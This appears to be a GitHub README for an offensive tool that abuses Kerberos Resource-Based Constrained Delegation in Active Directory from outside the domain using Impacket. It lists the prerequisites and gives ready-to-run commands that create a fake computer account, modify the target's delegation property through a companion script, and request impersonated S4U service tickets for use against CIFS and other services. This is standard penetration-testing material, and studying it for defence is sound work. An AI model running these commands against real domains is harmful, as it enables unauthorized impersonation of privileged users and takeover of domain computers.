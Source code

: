 # Abusing Kerberos Resource-Based Constrained Delegation

## TL;DR

This repo is about a practical attack against Kerberos Resource-Based
Constrained Delegation in a Windows Active Directory Domain.

The difference from other common implementations is that we are
launching the attack from outside of the Windows Domain, not from
a domain joined (usually Windows) computer.

The attack is implemented using only Python3
[Impacket](https://www.secureauth.com/labs/open-source-tools/impacket)
(and its dependencies). Tested on [Arch](https://www.archlinux.org/).

![Attack Log](./rbcd-attack.png)

## The Attack

In summary, without any deep details, the attack targets 
a domain computer, exactly service principals related to the
target domain computer.

What we need here as prerequisites:

* a domain account with write access to the target computer (exactly write access to the `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the target computer domain object)
* permission to create new computer accounts (this is usually default, see `MachineAccountQuota`)
* LDAP (389/tcp) and SAMR (445/tmp) (or LDAPS (636/tcp)) access to the DC.
* Kerberos (88/tcp) access to the DC

The attack path in very high level:

1. Create a fake computer
2. Abuse `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the target
3. Request impersonated Service Tickets (S4U) for the target computer

Benefit:

* Impersonated Service Tickets may allow high-level access to services on
the target like CIFS, HTTP, etc, if the impersonated account has privileges.

## Common toolsets

The common toolsets for this attack operate on a domain-joined
Windows Computer using:

* [Powermad](https://github.com/Kevin-Robertson/Powermad) for adding new computer accounts
* [Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) from [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) dev branch for `abusing msDS-AllowedToActOnBehalfOfOtherIdentity`
* [Rubeus](https://github.com/GhostPack/Rubeus) for S4U ticket operations

## Impacket implementation

This implementation uses pure Impacket from outside the Domain.

### Creating the fake computer

Using addcomputer.py example from Impacket let's create a fake computer:

```
addcomputer.py -computer-name 'FAKE_COMPUTER$' -computer-pass SuperS3cr3tP@ss -dc-ip 10.13.37.1 domain.local/user:userpass
```

### Modifying delegation rights

Implemented the script [rbcd.py](./rbcd.py) found here in the repo which
adds the related security descriptor for the newly created FAKE_COMPUTER to the
`msDS-AllowedToActOnBehalfOfOtherIdentity` property of the target computer.

```
rbcd.py
```

The script uses heavily the Python classes in the `ntlmrelayx.py` Impacket example.

### Getting the impersonated service ticket

Now everything is ready for abusing the Constrained Delegation by an
S4U2Self query and get an impersonated Service Ticket for the
target computer. With `getST.py` Impacket example script:

```
getST.py -spn cifs/TARGET_COMPUTER_NAME.domain -impersonate TARGET_DOMAIN_USER -dc-ip 10.13.37.1 DOMAIN/FAKE_COMPUTER:SuperS3cr3tP@ss
```

The above command fetches a CIFS Service Ticket on behalf of TARGET_DOMAIN_USER
and stores it in the file TARGET_DOMAIN_USER.ccache.

After adding the file path to the KRB5CCNAME variable the ticket is usable for
Kerberos clients.

```
export KRB5CCNAME=`pwd`/TARGET_DOMAIN_USER.ccache
klist
```

## References

For details about abusing Resource-Based Constrained Delegation:

* https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html
* https://www.harmj0y.net/blog/activedirectory/a-case-study-in-wagging-the-dog-computer-takeover/
* http://www.harmj0y.net/blog/activedirectory/s4u2pwnage/

And one of the most comprehensive presentations about Kerberos Attacks:

* [Constructing Kerberos Attacks with Delegation Primitives](https://shenaniganslabs.io/media/Constructing%20Kerberos%20Attacks%20with%20Delegation%20Primitives.pdf) slides at Defcon by [Elad Shamir](https://twitter.com/elad_shamir) and [Matt Bush](https://twitter.com/3xocyte)
